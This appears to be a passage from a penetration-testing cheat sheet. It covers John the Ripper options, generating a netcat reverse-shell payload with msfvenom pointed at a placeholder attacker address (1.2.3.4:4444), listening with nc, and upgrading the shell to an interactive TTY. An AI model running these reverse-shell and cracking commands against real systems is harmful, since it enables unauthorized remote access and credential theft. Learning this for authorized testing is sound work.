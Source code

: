 ##### Usage
john \[OPTIONS\] \[PASSWORD-FILES\]

##### Useful options

* **\-\-wordlist=/path/to/wordlist**: specifies a wordlist file
* **\-\-rules=RULESET_NAME**: specifies a set of rules to use while cracking
* **\-\-format=HASH_TYPE**: specifies the type of the hash

---

## Reverse shell

A **reverse shell** is a shell connection from the target machine to the attacker machine.

### Reverse shell generation

It is possible to use **msfvenom** to generate appropriate one-liner commands. The following command lists all the available payloads, filters the ones that are not **cmd/unix** and prints only their name:

{% highlight bash%}

msfvenom -l payloads | grep "cmd/unix" | awk {'print $1'}

{% endhighlight %}

These payloads can be used to generate the needed command. For example, the following command will generate a one-liner netcat command for the specified parameters

{% highlight bash%}

msfvenom -p cmd/unix/reverse_netcat LHOST=1.2.3.4 LPORT=4444

{% endhighlight %}

The reverse shells must be caught on the attacker machine by listening on the specified port (**nc -lvnp 4444**).

### Upgrading a dumb shell to a fully interactive shell

Reverse shells are usually lacking core functionalities such as no tab-complete, no command history with the up arrow, and the inability to use some commands (**su**, **ssh**, text editors).

However, it is possible to upgrade these shells to fully interactive ones. Running the following command will spawn a pseudo-terminal that can help when running some commands:

{% highlight bash %}

python -c 'import pty; pty.spawn("/bin/bash")'

{% endhighlight %}

Then, some options must be set in the attacking machine's terminal. After starting the pseudo-shell with Python, background it with **CTRL + Z**. Then, some information about the terminal must be known:
* the **TERM** type can be printed with **echo $TERM**
* the size of the **TTY** can be printed (along with other information) with **stty -a**.
